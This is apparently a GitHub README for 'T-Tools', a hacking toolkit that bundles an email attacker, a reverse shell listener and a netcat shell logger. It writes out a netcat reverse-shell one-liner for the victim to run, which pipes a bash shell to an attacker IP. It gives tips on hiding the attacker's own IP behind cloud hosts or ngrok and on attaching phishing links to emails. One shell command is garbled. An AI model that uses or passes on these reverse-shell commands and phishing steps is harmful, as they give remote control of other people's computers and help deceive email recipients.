# T-Tools-advanced--cyber-security 


# What is T-Tools

* T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells (only linux)
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command in version 1.0. 

* And you can use linode, aws or google cloud services to make your cloud machine.

* You can even use ngrok tcp to use reverse - X

# Vol 1.0 

      kali@attacker - $ nano reverse.py
      kali@attacker - $ < add your ip to the listen >
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <attacker ip> 9999 >/tmp/f  
    
    
 # Vol 1.1
 
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 0.0.0.0 ip> 9999 >/tmp/f
           
           
           
           
           
     
 
           
    
# e-mail Attacker     

* This tool needs gmail less secure app access.

* To use it for phishing you can make a phishing link and attach to it.

* Your passwords won't be saved.

To activate 

        kali@attacker - $ python3 email-attacker.py 
        



Made with 💖 by THb 
